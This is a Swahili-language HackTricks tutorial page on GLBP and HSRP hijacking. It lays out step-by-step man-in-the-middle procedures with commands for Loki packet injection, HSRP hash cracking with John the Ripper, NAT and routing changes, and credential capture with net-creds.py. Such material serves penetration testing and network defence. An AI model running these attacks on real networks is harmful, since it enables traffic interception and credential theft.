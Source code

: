 # Mashambulizi ya GLBP & HSRP

<details>

<summary><strong>Jifunze kuhusu kudukua AWS kutoka sifuri hadi shujaa na</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (Mtaalamu wa Timu Nyekundu ya AWS ya HackTricks)</strong></a><strong>!</strong></summary>

Njia nyingine za kusaidia HackTricks:

* Ikiwa unataka kuona **kampuni yako ikionekana kwenye HackTricks** au **kupakua HackTricks kwa PDF** Angalia [**MIPANGO YA KUJIUNGA**](https://github.com/sponsors/carlospolop)!
* Pata [**bidhaa rasmi za PEASS & HackTricks**](https://peass.creator-spring.com)
* Gundua [**Familia ya PEASS**](https://opensea.io/collection/the-peass-family), mkusanyiko wetu wa [**NFTs**](https://opensea.io/collection/the-peass-family) ya kipekee
* **Jiunge na** 💬 [**Kikundi cha Discord**](https://discord.gg/hRep4RUj7f) au kikundi cha [**telegram**](https://t.me/peass) au **tufuate** kwenye **Twitter** 🐦 [**@hacktricks_live**](https://twitter.com/hacktricks_live)**.**
* **Shiriki mbinu zako za kudukua kwa kuwasilisha PRs kwa** [**HackTricks**](https://github.com/carlospolop/hacktricks) na [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) repos za github.

</details>

<figure><img src="/.gitbook/assets/WebSec_1500x400_10fps_21sn_lightoptimized_v2.gif" alt=""><figcaption></figcaption></figure>

{% embed url="https://websec.nl/" %}


## Maelezo ya Utekelezaji wa FHRP Hijacking

### Mbinu za FHRP
FHRP imeundwa kutoa nguvu ya mtandao kwa kuunganisha mitambo mingi ya router katika kitengo kimoja cha kubadilishana, hivyo kuboresha usambazaji wa mzigo na uvumilivu wa hitilafu. Cisco Systems iliingiza itifaki maarufu katika mfululizo huu, kama vile GLBP na HSRP.

### Mbinu za Itifaki ya GLBP
Uumbaji wa Cisco, GLBP, hufanya kazi kwenye safu ya TCP/IP, ikichukua UDP kwenye bandari 3222 kwa mawasiliano. Routers katika kikundi cha GLBP hubadilishana pakiti za "hello" kila baada ya sekunde 3. Ikiwa router haitumi pakiti hizi kwa sekunde 10, inadhaniwa kuwa haipo. Walakini, muda huu si wa kudumu na unaweza kurekebishwa.

### Uendeshaji wa GLBP na Usambazaji wa Mzigo
GLBP inajitokeza kwa kuwezesha usambazaji wa mzigo kati ya routers kwa kutumia anwani moja ya IP ya kubadilishana pamoja na anwani nyingi za MAC za kubadilishana. Katika kikundi cha GLBP, kila router inashiriki katika kusonga pakiti. Tofauti na HSRP/VRRP, GLBP hutoa usambazaji wa mzigo wa kweli kupitia njia kadhaa:

- **Usambazaji wa Mzigo Unaotegemea Mwenyeji:** Unahifadhi ugawaji wa anwani ya MAC ya AVF kwa mwenyeji, muhimu kwa mazingira thabiti ya NAT.
- **Usambazaji wa Mzigo wa Round-Robin:** Njia ya msingi, kubadilisha ugawaji wa anwani ya MAC ya AVF kati ya wanaomba mwenyeji.
- **Usambazaji wa Mzigo wa Round-Robin Uliopimwa:** Unagawa mzigo kulingana na vipimo vilivyowekwa vya "Uzito".

### Vipengele na Istilahi muhimu katika GLBP
- **AVG (Lango la Kielelezo cha Kazi):** Router kuu, inayowajibika kwa kugawa anwani za MAC kwa routers wenzake.
- **AVF (Mbeba Mbele wa Kielelezo cha Kazi):** Router iliyoteuliwa kusimamia trafiki ya mtandao.
- **Kipaumbele cha GLBP:** Kipimo kinachodhibiti AVG, kuanzia 100 kwa chaguo-msingi na kati ya 1 na 255.
- **Uzito wa GLBP:** Inaonyesha mzigo wa sasa kwenye router, inayoweza kurekebishwa kwa mikono au kupitia Ufuatiliaji wa Vitu.
- **Anwani ya IP ya Kielelezo cha GLBP:** Inatumika kama lango la kawaida la mtandao kwa vifaa vyote vilivyounganishwa.

Kwa mwingiliano, GLBP hutumia anwani ya multicast iliyohifadhiwa 224.0.0.102 na bandari ya UDP 3222. Routers hutuma pakiti za "hello" kila baada ya sekunde 3, na huchukuliwa kutokuwa na uendeshaji ikiwa pakiti inakosekana kwa kipindi cha sekunde 10.

### Mbinu ya Mashambulizi ya GLBP
Mshambuliaji anaweza kuwa router kuu kwa kutuma pakiti ya GLBP yenye thamani kubwa ya kipaumbele (255). Hii inaweza kusababisha mashambulizi ya DoS au MITM, kuruhusu kudaka au kuelekeza trafiki.

### Kutekeleza Mashambulizi ya GLBP na Loki
[Loki](https://github.com/raizo62/loki_on_kali) inaweza kutekeleza mashambulizi ya GLBP kwa kuingiza pakiti na kipaumbele na uzito uliowekwa kwa 255. Hatua za kabla ya mashambulizi ni pamoja na kukusanya habari kama vile anwani ya IP ya kubadilishana, uwepo wa uwakilishi, na thamani za kipaumbele za router kwa kutumia zana kama Wireshark.

Hatua za Mashambulizi:
1. Badilisha kwa hali ya kusikiliza na wezesha kusonga IP.
2. Tambua router lengwa na upate anwani yake ya IP.
3. Zalisha ARP ya bure.
4. Ingiza pakiti ya GLBP yenye nia mbaya, ukiiga AVG.
5. Tenga anwani ya IP ya pili kwa kiolesura cha mtandao cha mshambuliaji, ikilinganisha na anwani ya IP ya kubadilishana ya GLBP.
6. Tekeleza SNAT kwa uonekano kamili wa trafiki.
7. Badilisha mwelekeo ili kuhakikisha upatikanaji wa mtandao unaendelea kupitia router ya asili ya AVG.

Kwa kufuata hatua hizi, mshambuliaji anajitokeza kama "mtu katikati," mwenye uwezo wa kudaka na kuchambua trafiki ya mtandao, ikiwa ni pamoja na data isiyo na usimbaji au nyeti.

Kwa mfano, hapa kuna vipande vya amri vinavyohitajika:
```bash
# Enable promiscuous mode and IP forwarding
sudo ip link set eth0 promisc on
sudo sysctl -w net.ipv4.ip_forward=1

# Configure secondary IP and SNAT
sudo ifconfig eth0:1 10.10.100.254 netmask 255.255.255.0
sudo iptables -t nat -A POSTROUTING -o eth0 -j MASQUERADE

# Adjust routing
sudo route del default
sudo route add -net 0.0.0.0 netmask 0.0.0.0 gw 10.10.100.100
```
Kufuatilia na kuingilia kati trafiki inaweza kufanywa kwa kutumia net-creds.py au zana kama hizo kuchukua na kuchambua data inayopita kupitia mtandao uliokumbwa.

### Maelezo ya Kusubiri ya Utekaji wa HSRP na Maelezo ya Amri

#### Maelezo ya Jumla ya Utekaji wa HSRP (Itikadi ya Msimamo wa Haraka wa Router/Itifaki ya Redundancy)
HSRP ni itifaki ya Cisco iliyoundwa kwa ajili ya redundansi ya lango la mtandao. Inaruhusu usanidi wa rutuba za mwili nyingi katika kitengo kimoja la mantiki lenye anwani ya IP iliyoshirikiwa. Kitengo hili la mantiki linasimamiwa na router ya msingi inayowajibika kwa kuelekeza trafiki. Tofauti na GLBP, ambayo hutumia vipimo kama kipaumbele na uzito kwa usawa wa mzigo, HSRP inategemea router moja tu ya aktivi kwa usimamizi wa trafiki.

#### Majukumu na Istilahi katika HSRP
- **Router ya Aktivi ya HSRP**: Kifaa kinachofanya kazi kama lango, kusimamia mtiririko wa trafiki.
- **Router ya Kusubiri ya HSRP**: Router ya akiba, tayari kuchukua nafasi ikiwa router ya aktivi inashindwa.
- **Kikundi cha HSRP**: Seti ya rutuba zinazoshirikiana ili kuunda router ya kubadilika moja.
- **Anwani ya MAC ya HSRP**: Anwani ya MAC ya kubadilika iliyoandaliwa kwa router ya mantiki katika usanidi wa HSRP.
- **Anwani ya IP ya Kibadilika ya HSRP**: Anwani ya IP ya kibadilika ya kikundi cha HSRP, ikifanya kazi kama lango la msingi kwa vifaa vilivyounganishwa.

#### Toleo za HSRP
HSRP inakuja katika toleo mbili, HSRPv1 na HSRPv2, zikitofautiana hasa katika uwezo wa kikundi, matumizi ya IP ya multicast, na muundo wa anwani ya MAC ya kibadilika. Itifaki hutumia anwani maalum za IP za multicast kwa kubadilishana habari ya huduma, na pakiti za Hello hutumwa kila baada ya sekunde 3. Router inachukuliwa kuwa haifanyi kazi ikiwa hakuna pakiti inayopokelewa ndani ya kipindi cha sekunde 10.

#### Mbinu ya Utekaji wa HSRP
Mbinu za HSRP zinahusisha kuchukua jukumu la Router ya Aktivi kwa kuingiza thamani ya kipaumbele ya juu. Hii inaweza kusababisha shambulio la Man-In-The-Middle (MITM). Hatua muhimu kabla ya shambulio ni kukusanya data kuhusu usanidi wa HSRP, ambayo inaweza kufanywa kwa kutumia Wireshark kwa uchambuzi wa trafiki.

#### Hatua za Kupitisha Uthibitishaji wa HSRP
1. Hifadhi trafiki ya mtandao inayojumuisha data ya HSRP kama faili ya .pcap.
```shell
tcpdump -w hsrp_traffic.pcap
```
2. Chambua hashi za MD5 kutoka kwa faili ya .pcap kwa kutumia hsrp2john.py.
```shell
python2 hsrp2john.py hsrp_traffic.pcap > hsrp_hashes
```
3. Gonga hashi za MD5 kwa kutumia John the Ripper.
```shell
john --wordlist=mywordlist.txt hsrp_hashes
```

**Kutekeleza Uingizaji wa HSRP na Loki**

1. Anzisha Loki kutambua matangazo ya HSRP.
2. Weka kiolesura cha mtandao kwenye hali ya kusikiliza na wezesha kusonga kwa IP.
```shell
sudo ip link set eth0 promisc on
sudo sysctl -w net.ipv4.ip_forward=1
```
3. Tumia Loki kulenga router maalum, ingiza nenosiri lililovunjwa la HSRP, na fanya usanidi unaohitajika kujifanya kuwa Router ya Aktivi.
4. Baada ya kupata jukumu la Router ya Aktivi, sanidi kiolesura chako cha mtandao na meza za IP kuingilia trafiki halali.
```shell
sudo ifconfig eth0:1 10.10.100.254 netmask 255.255.255.0
sudo iptables -t nat -A POSTROUTING -o eth0 -j MASQUERADE
```
5. Badilisha meza ya mwelekeo kuelekeza trafiki kupitia Router ya zamani ya Aktivi.
```shell
sudo route del default
sudo route add -net 0.0.0.0 netmask 0.0.0.0 gw 10.10.100.100
```
6. Tumia net-creds.py au zana kama hiyo kuchukua vibali kutoka kwa trafiki iliyozuiliwa.
```shell
sudo python2 net-creds.py -i eth0
```

Kutekeleza hatua hizi humpa mshambuliaji nafasi ya kuingilia na kudhibiti trafiki, sawa na utaratibu wa utekaji wa GLBP. Hii inaonyesha udhaifu katika itifaki za redundansi kama HSRP na haja ya hatua imara za usalama.
